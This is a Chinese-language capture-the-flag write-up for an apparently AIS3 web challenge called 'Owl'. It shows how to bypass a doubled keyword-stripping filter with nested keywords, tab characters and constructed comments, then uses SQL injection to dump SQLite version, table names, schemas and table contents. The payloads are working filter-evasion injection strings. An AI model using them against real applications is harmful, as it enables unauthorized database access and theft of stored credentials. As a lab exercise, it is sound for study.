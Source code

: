 ### Owl

查看錯誤訊息時，發現 or, and 與 space 會被消去，因此構造 `\t` tab 字元與 or 的 payload ，或者透過  `'ooroorrr	1=1;/*`  成功登入，查看網頁原始碼發現有程式碼 hint，讀取原始碼
https://turtowl.ais3.org/?source

可以發現原始碼做兩次過濾，構造一個 payload 透過 username  顯示 table 資訊

``` php
// Get rid of you
$bad = [' ', '/*', '*/', 'select', 'union', 'or', 'and', 'where', 'from', '--'];
$username = str_ireplace($bad, '', $username);
$username = str_ireplace($bad, '', $username);
```



可以構造一個空格 `/oorr**oorr/ `過濾好之後就會變成 `/**/`

查看版本號為  `3.27.2`

``` sqlite
'	unoorrion	SELoorrECT	'1',sqlite_version(),'2';
```

發現構造 payload 很找不到原因錯誤，把過濾器弄下來處理，檢查每個步驟發現語法中的 `form` 不斷被過濾。並且找到一個方法，混合 `-` 與 `or` 就不會被過濾掉。

之後構造好 payload 求出表名稱

``` SQL
'	unoorrion/oorr**oorr/SELoorrECT	'1',GROUP_CONCAT(name),'2'/oorr**oorr/FR-oorr-om/oorr**oorr/sqlite_master;
```

回傳值為

``` plaintext
users,sqlite_sequence,garbage
```

把 表結構弄出來

``` sql
'	unoorrion/oorr**oorr/SELoorrECT	'1',GROUP_CONCAT(sql),'2'/oorr**oorr/FR-oorr-om/oorr**oorr/sqlite_master;
```

回傳值

``` sqlite
CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT ),CREATE TABLE sqlite_sequence(name,seq),CREATE TABLE garbage ( id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, value TEXT )
```

看看 `garbage`

``` sqlite
'	unoorrion/oorr**oorr/SELoorrECT	'1',GROUP_CONCAT(value),'2'/oorr**oorr/FR-oorr-om/oorr**oorr/garbage;
```
